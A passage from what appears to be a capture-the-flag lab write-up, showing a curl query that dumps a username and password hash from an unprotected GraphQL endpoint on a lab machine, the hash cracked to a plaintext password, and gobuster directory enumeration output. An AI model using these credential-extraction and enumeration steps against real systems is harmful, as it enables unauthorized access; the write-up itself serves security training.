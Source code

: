     
    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
    {
      "data": {
        "user": {
          "username": "helpme@helpme.com",
          "password": "5d3c93182bb20f07b994a7f617e99cff"
        }
      }
    }
    

That’s clearly a hash, and [crackstation.net](https://crackstation.net/)
breaks it instantly:

![1548503757698](https://0xdfimages.gitlab.io/img/1548503757698.png)

I now have the username of “helpme@helpme.com” with password “godhelpmeplz”.

### Web - TCP 80

#### Site

The site is just the Ubuntu Apache default page:

![1559596066790](https://0xdfimages.gitlab.io/img/1559596066790.png)

#### gobuster

`gobuster` gives me a new path, `/support`:

    
    
    root@kali# gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
    
    =====================================================
    Gobuster v2.0.1              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.121/
    [+] Threads      : 50
    [+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Timeout      : 10s
    =====================================================
    2019/01/24 14:37:35 Starting gobuster
    =====================================================
    /support (Status: 301)
    /javascript (Status: 301)
    =====================================================
    2019/01/24 14:39:01 Finished
    =====================================================
    
